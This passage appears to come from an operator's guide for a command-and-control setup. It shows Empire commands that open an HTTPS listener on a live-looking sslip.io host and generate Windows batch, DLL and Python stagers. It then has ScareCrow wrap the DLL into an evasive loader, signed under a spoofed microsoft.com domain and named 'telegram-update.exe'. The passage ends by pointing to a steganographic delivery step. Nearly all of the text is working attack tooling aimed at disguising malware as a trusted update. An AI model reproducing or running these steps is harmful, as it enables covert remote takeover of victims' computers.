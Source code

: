#### HTTPS Listener (Direct)
```python
uselistener https
set Host https://161-35-155-3.sslip.io
set Port 8443
set CertPath /etc/letsencrypt/live/161-35-155-3.sslip.io/fullchain.pem
execute
```

### Step 5: Generate Stagers

#### Windows PowerShell Stager
```python
# Via Empire CLI
usestager windows/launcher_bat
set Listener http
set OutFile /home/kali/Main\ C2\ Framework/stagers/launcher.bat
execute
```

#### Windows DLL Stager (for ScareCrow)
```python
usestager windows/dll
set Listener http
set OutFile /home/kali/Main\ C2\ Framework/stagers/empire.dll
execute
```

#### Python Stager
```python
usestager multi/launcher
set Listener http
set OutFile /home/kali/Main\ C2\ Framework/stagers/launcher.py
execute
```

### Step 6: Integrate with ScareCrow

```bash
cd /home/kali/ScareCrow

# Generate obfuscated payload with Empire stager
./ScareCrow \\
  -I /home/kali/Main\ C2\ Framework/stagers/empire.dll \\
  -Loader binary \\
  -domain microsoft.com \\
  -O /home/kali/Main\ C2\ Framework/payloads/telegram-update.exe
```

### Step 7: Update Steganography System

Update the steganography delivery system with new payloads:
